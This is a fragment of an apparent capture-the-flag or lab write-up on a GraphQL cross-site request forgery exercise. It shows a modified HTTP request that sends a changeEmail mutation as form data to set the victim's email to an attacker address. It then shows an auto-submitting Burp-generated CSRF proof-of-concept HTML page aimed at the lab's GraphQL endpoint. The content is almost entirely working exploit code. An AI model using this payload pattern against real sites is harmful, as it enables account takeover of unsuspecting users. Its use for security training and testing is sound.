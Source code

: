 * Modified Query

```
POST /graphql/v1 HTTP/2
Host: example.com
Cookie: session=mmnvO1zISsiqpUzFCo0C5prXGkueGX9K; session=mmnvO1zISsiqpUzFCo0C5prXGkueGX9K
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: es-ES,es;q=0.9
Accept: application/json
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Origin: https://example.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://example.com/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Content-Typpe: x-www-form-urlencoded
Content-Type: application/x-www-form-urlencoded
Content-Length: 479

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

* CSRF POC

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0e00090435cab38094176f00350020.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="&#32;&#32;&#32;&#32;query" value="&#10;&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#10;&#32;&#32;&#32;&#32;&#125;&#10;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;hacker&#64;hacker&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```